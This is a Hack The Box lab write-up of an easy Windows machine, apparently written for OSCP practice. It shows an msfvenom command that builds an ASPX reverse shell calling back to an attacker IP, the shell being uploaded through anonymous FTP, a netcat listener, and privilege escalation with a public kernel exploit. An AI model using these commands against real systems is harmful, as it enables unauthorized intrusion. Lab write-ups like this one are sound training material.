 ```yaml
---
layout: post
title:  "HTB - DAVEL - Without Metasploit"
date:   2020-02-11 08:07:19
categories: [HTB,Writeup,oscp-prep]
comments: true
image:
  feature: ![infocard](https://raghul.ml/img/infocard.png)
---
```


Davel is one of the easy windows OSCP like machine. The full list of OSCP like machine can be found [here](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#)

Let's get started!

<!--more-->

### Recon
 
Started with [nmapAutomater](https://github.com/21y4d/nmapAutomator) for recon and found FTP port open with anonymous access.

![nmap-result](https://raghul.ml/img/nmap-allowed-anonymous.png)

The machine also has port 80 open which looks like default IIS page.

![http-site](https://raghul.ml/img/http-site.png)

Whatever uploaded in the FTP can be accessed from HTTP.

### Exploitation

Creating aspx reverse shell using msfvenom.

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.80 LPORT=4242 -f aspx > shell.aspx`

Uploading the aspx file to the ftp

![uploading shell](https://raghul.ml/img/uploading-shell-anonymous-ftp.png)

Accessing the shell from the HTTP to get the reverse tcp connection. Spawn the listener in attacker machine

`nc -nlvp 4242`

Got shell. But the user was IIS user and dosent have user or admin privilege.

### Privilege escalation

![windows shell system info](https://raghul.ml/img/windows_shell_systeminfo.png)

From the system info we can understand the following:
1. Os Name : Windows 7 enterprise 
2. Os version : 6.1.7600
3. Hotfix : Not applied


Googled the OS name and its version for corresponding CVE and found a exploit on exploitdb.

![priv-exec](https://raghul.ml/img/priv-esc-exploitdb.png)

Use `searchsploit` to copy the exploit locally.

![searchsploit](https://raghul.ml/img/searchsploit.png)

Method to build the exe is given in the comment section of the exploit

![how to build](https://raghul.ml/img/how-to-build.png)

Compiling the exe file and creating python shell to transfer the exe file.

![compiling](https://raghul.ml/img/compiling%20and%20executing%20binary.png)

Using powershell, Downloading the exe file to the victim machine.

![powershell to donwload the file](https://raghul.ml/img/Download-files-in-windows.png)

Executing the exe file

![priv exec](https://raghul.ml/img/executing-shell-gaining-system-priv.png)

##### Owning User

![owning user](https://raghul.ml/img/owning-user.png)

##### Owning Administrator
![owning root](https://raghul.ml/img/owning-root.png)


### Cleanup

1. Deleting aspx shell from FTP

![ftp-cleanup](https://raghul.ml/img/cleanup-ftp.png)

2. Deleted privexec exe from the machine




